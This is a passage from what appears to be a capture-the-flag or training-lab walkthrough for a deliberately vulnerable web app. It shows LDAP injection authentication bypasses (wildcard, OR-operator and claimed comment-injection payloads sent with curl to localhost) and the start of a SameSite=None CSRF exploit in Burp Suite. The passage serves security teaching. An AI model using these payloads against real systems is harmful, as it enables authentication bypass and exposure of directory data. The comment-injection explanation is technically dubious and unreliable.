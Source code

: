 ### 7. LDAP Injection Bypass Methods

#### Bypass Method 1: Wildcard Filter Bypass
**Vulnerability:** LDAP filter doesn't sanitize wildcard characters  
**Bypass:** Use `*` wildcard to match all entries

**Exploitation:**
```bash
# Standard login attempt (fails without valid credentials)
curl "http://localhost:5000/api/vuln/ldap-injection?username=admin&password=wrongpass"

# Wildcard bypass to dump all directory entries
curl "http://localhost:5000/api/vuln/ldap-injection?username=*"
# Flag: {LDAP_INJECTION_WILDCARD_BYPASS}
```

**Using Burp Suite:**
1. Intercept the LDAP search request
2. Modify username parameter to: `*`
3. Server returns all LDAP directory entries including admin accounts
4. Extract sensitive information from directory listings

#### Bypass Method 2: Comment Injection
**Vulnerability:** LDAP comment syntax not filtered  
**Bypass:** Use `#` or `//` to comment out password check

**Exploitation:**
```bash
# Comment out the password portion of LDAP filter
curl "http://localhost:5000/api/vuln/ldap-injection?username=admin)%23"
# This transforms filter from: (username=admin)(password=xxx) 
# To: (username=admin)# <- password check commented out
```

#### Bypass Method 3: Boolean-Based LDAP Injection
**Vulnerability:** LDAP operators not sanitized  
**Bypass:** Use OR operator to always match

**Exploitation:**
```bash
# OR injection to bypass authentication
curl "http://localhost:5000/api/vuln/ldap-injection?username=*)(uid=*"
# Creates filter: (username=*)(uid=*) - always true
```

### 8. Advanced CSRF - SameSite=None Bypass

#### Bypass Method: SameSite=None Cookie Exploitation
**Vulnerability:** Cookies set with SameSite=None attribute  
**Bypass:** Create cross-site request that includes vulnerable cookies

**Exploitation Using Burp Suite:**

**Step 1: Analyze the Session Cookie**
1. Navigate to the Advanced CSRF lab
2. In Burp's Proxy → HTTP History, find the Set-Cookie header
3. Observe: `Set-Cookie: csrf_session=user_123; SameSite=None`
4. This cookie WILL be sent in cross-origin requests!
